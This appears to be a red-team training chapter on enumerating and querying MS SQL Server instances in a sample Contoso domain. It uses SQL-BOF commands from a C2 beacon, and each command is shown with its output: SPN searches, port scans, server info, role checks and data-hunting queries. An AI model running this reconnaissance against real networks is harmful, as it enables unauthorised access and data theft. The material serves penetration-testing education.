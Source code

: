 
MS SQL (Structured Query Language) Server is Microsoft's proprietary relational database management system.

Popular tools to interact with MS SQL servers include [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL), [SQLRecon](https://github.com/skahwah/SQLRecon), [SQL-BOF](https://github.com/Tw1sm/SQL-BOF), [sqlcmd](https://github.com/microsoft/go-sqlcmd), [HeidiSQL](https://www.heidisql.com/), and [SSMS](https://learn.microsoft.com/en-us/ssms/download-sql-server-management-studio-ssms).  This chapter will exclusively demonstrate SQL-BOF, but you can use any tool you prefer.

### Enumeration
#### SPNs

One way to enumerate SQL server instances is to query for the SPNs that are used to support Kerberos authentication.  This will give you the hostname of the SQL servers and the service accounts that are used to run them

```powershell
beacon> ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName

Binding to 10.10.120.1

[*] Distinguished name: DC=contoso,DC=com
[*] targeting DC: \\lon-dc-1.contoso.com
[*] Filter: (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*))
[*] Scope of search value: 3
[*] Returning specific attribute(s): name,samAccountName,servicePrincipalName

--------------------
name: MSSQL Service
sAMAccountName: mssql_svc
servicePrincipalName: MSSQLSvc/lon-db-1.contoso.com:1433, MSSQLSvc/lon-db-1.contoso.com

retreived 1 results total

```

#### Port scanner

If they haven't been configured to support Kerberos authentication, then scanning for open ports [known](https://learn.microsoft.com/en-us/sql/sql-server/install/configure-the-windows-firewall-to-allow-sql-server-access) to be used by MS SQL server may be a suitable alternative.

```powershell
beacon> portscan 10.10.120.0/23 1433 arp 1024

10.10.120.20:1433

Scanner module is complete
```

#### SQL server info

The information you can collect about a SQL instance depends on the role(s) you have on that instance.  If the _SQLBrowser_ service is running (1434/UDP), then you can collect very minimal information about the server name, instance, and version.  This can be collected without having any role on the SQL instance.

```powershell
beacon> sql-1434udp 10.10.120.20

SQL Server Connection Info:

ZServerName;LON-DB-1;InstanceName;MSSQLSERVER;IsClustered;No;Version;16.0.1000.6;tcp;1433;;
```

If a user does not have at least the [_public_ role](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/server-level-roles), then no further interaction is viable.  With the public role, we can collect a bit more information such as the SQL server process's PID.

```powershell
beacon> sql-info lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Extracting SQL server information
 |--> ComputerName            : lon-db-1
 |--> DomainName              : CONTOSO
 |--> ServicePid              : 3364
 |--> ServiceName             : MSSQLSERVER
 |--> ServiceAccount          : CONTOSO\mssql_svc
 |--> AuthenticationMode      : Windows and SQL Server Authentication
 |--> ForcedEncryption        : 0
 |--> Clustered               : No
 |--> SqlServerVersionNumber  : 16.0.1000.6
 |--> SqlServerMajorVersion   : 2022
 |--> SqlServerEdition        : Standard Edition (64-bit)
 |--> SqlServerServicePack    : RTM
 |--> OsArchitecture          : X64
 |--> OsMachineType           : ServerNT
 |--> OsVersion               : Windows Server 2022 Standard
 |--> OsVersionNumber         : 2022
 |--> CurrentLogin            : CONTOSO\rsteel
 |--> IsSysAdmin              : True
 |--> ActiveSessions          : 1

[*] Disconnecting from server
```

You can query for information about the current user's rights on the SQL instance, which is useful for seeing all the roles and permissions that you have available.  Roles such as _serveradmin_, _securityadmin_, and _sysadmin_ are of particular interest.

```powershell
beacon> sql-whoami lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Determining user permissions on lon-db-1
[*] Logged in as CONTOSO\rsteel
[*] Mapped to the user dbo
[*] Gathering roles...
 |--> User is a member of the public role
 |--> User is a member of the db_owner role
 |--> User is a member of the db_accessadmin role
 |--> User is a member of the db_securityadmin role
 |--> User is a member of the db_ddladmin role
 |--> User is a member of the db_backupoperator role
 |--> User is a member of the db_datareader role
 |--> User is a member of the db_datawriter role
 |--> User is NOT a member of the db_denydatareader role
 |--> User is NOT a member of the db_denydatawriter role
 |--> User is a member of the sysadmin role
 |--> User is a member of the setupadmin role
 |--> User is a member of the serveradmin role
 |--> User is a member of the securityadmin role
 |--> User is a member of the processadmin role
 |--> User is a member of the diskadmin role
 |--> User is a member of the dbcreator role
 |--> User is a member of the bulkadmin role

[*] Disconnecting from server
```

### Querying
The public role will also grant permission to query the database instance, which is useful for data-hunting.

```powershell
beacon> sql-query lon-db-1 "SELECT @@SERVERNAME"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

 | 
---
lon-db-1 | 

[*] Disconnecting from server
```

SQL-BOF provides specific commands to list databases, tables, and rows of interest.

- `sql-databases` - list the available databases.
    
- `sql-tables` - list the tables in a given database.
    
- `sql-columns` - list the columns in a given table.
    
- `sql-search` - search for columns in the given database that contain a keyword.
